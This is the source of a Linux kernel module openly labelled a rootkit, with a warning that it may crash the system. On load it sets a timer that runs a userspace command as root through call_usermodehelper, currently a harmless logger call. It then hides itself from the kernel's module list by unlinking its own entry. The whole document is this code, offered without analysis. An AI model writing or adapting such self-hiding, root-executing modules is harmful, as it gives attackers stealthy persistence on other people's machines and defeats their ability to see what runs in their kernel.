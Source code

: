 ```c
/// Comment to compile but be warned!
WARNING THIS CODE WILL CRASH YOUR SYSTEM! So Do not run it on workstation

#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/rculist.h>
#include <linux/sysfs.h>
#include <linux/delay.h>

static struct timer_list my_timer;

static int simple_usp_runner(void)
{
  char *argv[] = { "/usr/bin/logger", "root!", NULL };
  static char *envp[] = {
        "HOME=/",
        "TERM=linux",
        "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };

  return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
}

void rootkit_callback(unsigned long data)
{
  printk(KERN_INFO "rootkit_callback (%ld).\n", jiffies);

  simple_usp_runner();
}

static int __init rootkit_init(void)
{
  int ret;  
  struct module *mod = THIS_MODULE;

  printk(KERN_INFO "rootkit_mod setting up the timer.\n");

/*
  Lets setup simple timer. Timer resolution depends on kernel parameters
  but don't dream about anything better than 1Hz.
*/
  setup_timer(&my_timer, rootkit_callback, 0);
  ret = mod_timer(&my_timer, jiffies + msecs_to_jiffies(1000));

  if (ret)
    printk(KERN_WARNING "Error in mod_timer\n");

  printk(KERN_INFO "rootkit_mod hidind itself.\n");

  mutex_lock(&module_mutex);
  list_del(&mod->list);
  mutex_unlock(&module_mutex);


  printk(KERN_INFO "rootkit_mod done.\n");
  return 0;
}
module_init(rootkit_init);

static void __exit rootkit_exit(void)
{
  printk(KERN_INFO "rootkit_mod unloaded.\n");
}
module_exit(rootkit_exit);
```